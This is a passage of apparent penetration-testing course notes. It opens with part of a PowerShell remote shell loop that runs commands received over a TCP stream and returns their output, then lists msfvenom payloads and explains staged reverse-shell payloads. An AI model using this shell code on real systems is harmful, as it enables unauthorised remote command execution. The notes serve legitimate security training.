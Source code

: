 ```powershell
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

## Crafting Payloads with MSFvenom

To list all of the msfvenom payloads ->

```
ElFelixi0@htb[/htb]$ msfvenom -l payloads
```

#### Staged vs. Stageless Payloads

When running a staged exploit module in Metasploit, this payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.
